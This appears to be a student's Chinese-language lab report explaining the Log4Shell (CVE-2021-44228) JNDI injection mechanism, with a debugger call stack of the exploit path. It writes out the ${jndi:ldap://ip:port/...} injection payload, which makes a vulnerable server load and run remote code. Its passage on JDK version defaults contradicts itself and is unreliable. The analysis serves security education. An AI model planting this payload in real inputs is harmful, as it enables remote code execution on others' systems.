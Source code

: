 ## 思考题

> 1. **解释实验 1（本地弹计算器）的漏洞触发过程**

下面的分析来自本人在大一春夏“网络空间安全导论”课程报告 log4j 漏洞复现中的分析。

**JNDI 注入原理：**

JNDI 封装了一些服务，并且通过 lookup 来访问服务，例如通过 lookup("rmi://ip:port/...") 的形式访问 ip:port 提供的 RMI 服务，通过 lookup("ldap://ip:port/...") 的形式访问 LDAP 服务。

JNDI 的目的是通过名称/目录获取对象，而远程读取的一般是编译后的 .class 文件所以在 lookup 时会进行类加载，JVM 将其加载为 Java 类。而当 ClassLoader 加载 .class 文件的时候会调用类的 clinit 方法，执行类的静态代码。因此如果可以控制 JNDI lookup 的 URL，便可以任意加载远程类，执行恶意代码，这也就是 JNDI 注入原理。

但是 JNDI 注入受到 JDK 配置限制，如果 com.sun.jndi.xxx.object.trustURLCodebase 这一配置是 false 时则不会信任 URL 从而无法进行 JNDI 注入。在 JDK 11.0.1、8u191、7u201、6u211 等版本中这一配置默认是 true，而从 6u132、7u122、8u113 开始，这一配置默认为 false（因此后面使用高版本 JDK 复现时要手动开启这一配置）

**CVE-2021-44228 漏洞原理：**

CVE-2021-44228 即是通过 log4j 来实现了 JNDI 注入。log4j 可以通过 \${} 语法来获取动态内容并输出到日志中，其中对于每个 \${} 部分使用 lookup 方法来解决变量，其中也提供了 JndiLookup，也就是说可以使用 JNDI 来读取内容，形如 \${jndi:...}。这时就存在 JNDI 注入。

而大部分使用 log4j 来记录日志的网络应用都会记录用户的输入，比如搜索网站会记录用户搜索的内容，这时如果用户输入的是 \${jndi:...}（比如 ${jndi:ldap://ip:port/...}） 就会进行 JndiLookup，实现 JNDI 注入，这也就是 CVE-2021-44228 这个漏洞的原理。

**漏洞触发过程分析：**

通过调试运行 log4j 漏洞应用可以获取到整个程序的调用栈：

```java
<clinit>:11, Exploit
forName0:-1, Class (java.lang)
forName:348, Class (java.lang)
loadClass:91, VersionHelper12 (com.sun.naming.internal)
loadClass:101, VersionHelper12 (com.sun.naming.internal)
loadClass:115, VersionHelper12 (com.sun.naming.internal)
getObjectFactoryFromReference:163, NamingManager (javax.naming.spi)
getObjectInstance:189, DirectoryManager (javax.naming.spi)
c_lookup:1114, LdapCtx (com.sun.jndi.ldap)
p_lookup:542, ComponentContext (com.sun.jndi.toolkit.ctx)
lookup:177, PartialCompositeContext (com.sun.jndi.toolkit.ctx)
lookup:205, GenericURLContext (com.sun.jndi.toolkit.url)
lookup:94, ldapURLContext (com.sun.jndi.url.ldap)
lookup:417, InitialContext (javax.naming)
lookup:172, JndiManager (org.apache.logging.log4j.core.net)
lookup:56, JndiLookup (org.apache.logging.log4j.core.lookup)
lookup:221, Interpolator (org.apache.logging.log4j.core.lookup)
resolveVariable:1110, StrSubstitutor (org.apache.logging.log4j.core.lookup)
substitute:1033, StrSubstitutor (org.apache.logging.log4j.core.lookup)
substitute:912, StrSubstitutor (org.apache.logging.log4j.core.lookup)
replace:467, StrSubstitutor (org.apache.logging.log4j.core.lookup)
format:132, MessagePatternConverter (org.apache.logging.log4j.core.pattern)
format:38, PatternFormatter (org.apache.logging.log4j.core.pattern)
toSerializable:344, PatternLayout$PatternSerializer (org.apache.logging.log4j.core.layout)
toText:244, PatternLayout (org.apache.logging.log4j.core.layout)
encode:229, PatternLayout (org.apache.logging.log4j.core.layout)
encode:59, PatternLayout (org.apache.logging.log4j.core.layout)
directEncodeEvent:197, AbstractOutputStreamAppender (org.apache.logging.log4j.core.appender)
tryAppend:190, AbstractOutputStreamAppender (org.apache.logging.log4j.core.appender)
append:181, AbstractOutputStreamAppender (org.apache.logging.log4j.core.appender)
tryCallAppender:156, AppenderControl (org.apache.logging.log4j.core.config)
callAppender0:129, AppenderControl (org.apache.logging.log4j.core.config)
callAppenderPreventRecursion:120, AppenderControl (org.apache.logging.log4j.core.config)
callAppender:84, AppenderControl (org.apache.logging.log4j.core.config)
callAppenders:540, LoggerConfig (org.apache.logging.log4j.core.config)
processLogEvent:498, LoggerConfig (org.apache.logging.log4j.core.config)
log:481, LoggerConfig (org.apache.logging.log4j.core.config)
```